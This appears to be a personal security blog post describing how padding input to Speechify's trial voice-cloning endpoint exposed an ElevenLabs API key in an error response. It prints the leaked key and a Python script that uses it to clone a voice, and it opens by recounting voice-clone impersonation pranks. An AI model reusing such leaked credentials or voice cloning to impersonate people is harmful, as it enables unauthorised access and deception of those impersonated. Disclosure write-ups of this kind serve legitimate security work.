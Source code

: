 ```yaml
---
title: Speechify voice cloning API key leakage
layout: post
---
```


![speechify-logo](/assets/speechify-logo.png)

# Introduction
Yesterday, I came across a video on Youtube of a guy using an AI Voice cloning service to impersonate and troll people on the popular GTA5 modification framework known as FiveM.

It was pretty funny to watch because he was doing this on roleplay servers and, as you may already know, there are rules to follow and people tend to get into arguments frequently. 

- [EDITING clips with Ai to get an ADMIN FIRED! @parkerrYT](https://youtu.be/yvLb6gkPYgw?si=zLY_ITZl_RtUQZnT)

Put simply, he would record a sample of the voice to clone and use the ElevenLabs voice cloning service to make them say things they never meant to, of course revealing in the end what really happened.

# ElevenLabs AI Voice cloning
Next thing you know, I am looking at the plans that ElevenLabs offers, I wanted to play with it a little and see how accurate it really is but didn't feel like spending the 22$ (at the time), and started looking for an alternative.

![elevenlabs-prices](/assets/elevenlabs-prices.png)

# Speechify AI Voice cloning
The alternative I was looking for turned out to be Speechify as they offer a free trial version of the service, the only issue with it is that you can't change the text without upgrading your plan, making it look useless at first.

![speechify-interface](/assets/speechify-interface.png)

After playing a little with the text I noticed that the only character you are allowed to add are spaces, adding any other character would result in an annoying `upgrade for full access` message.

![annoying-message](/assets/annoying-message.png)

The next thing I tried was adding a lot of spaces and seeing how the endpoint would reply, after the text reaches the size of 5500 characters the endpoint replies with code 500 and greets us with the following data.

```
HTTP/2 500 Internal Server Error
Cache-Control: public, max-age=0, must-revalidate
Content-Type: application/json; charset=utf-8
Date: Tue, 05 Dec 2023 22:23:27 GMT
Etag: "qexsok88sj5k7"
Server: Vercel
Strict-Transport-Security: max-age=63072000
X-Matched-Path: /api/tts/clone
X-Vercel-Cache: MISS
X-Vercel-Id: fra1::iad1::jwvvj-1701815001593-c964271a4111
Content-Length: 7207

{
  "message": "Request failed with status code 400",
  "name": "AxiosError",
  "stack": "at ClientRequest.emit (node:domain:489:12)\n at HTTPParser...",
  "config": {
    "headers": {
      "Accept": "application/json, text/plain, */*",
      "Content-Type": "application/json",
      "xi-api-key": "a67a36e2011cf31e21343adb66f46ca2",
      "User-Agent": "axios/1.4.0",
      "Content-Length": "5611",
      "Accept-Encoding": "gzip, compress, deflate, br"
    },
    "params": {
      "optimize_streaming_latency": 3
    },
    "responseType": "stream",
    "method": "post",
    "url":"https://api.elevenlabs.io/v1/text-to-speech/voice_id"
  },
  "code": "ERR_BAD_REQUEST",
  "status": 400
}
```

Great! an ElevenLabs API key seems to have been leaked, now all that's left to do is read the ElevenLabs documentation and use the api key to access the voice cloning service using their python library.

```python
from elevenlabs import clone, generate, play
from elevenlabs import set_api_key

api_key = 'a67a36e2011cf31e21343adb66f46ca2'
set_api_key(api_key)

voice = clone(name="nekka",
              files=["./sample.mp3"])

audio = generate(text="hi! how you doing?",
                 voice=voice, 
                 model='eleven_multilingual_v2')

audio_file = open('output.mp3', 'wb')
audio_file.write(audio)
audio_file.close()
```

After running the script we get our `output.mp3` file containing the result!

![output-file](/assets/voice-clone-files.png)

# Conclusion
I sent them an email to get this sorted out but never received a reply. As of now, it appears that the leakage has been resolved, and the API key has been invalidated.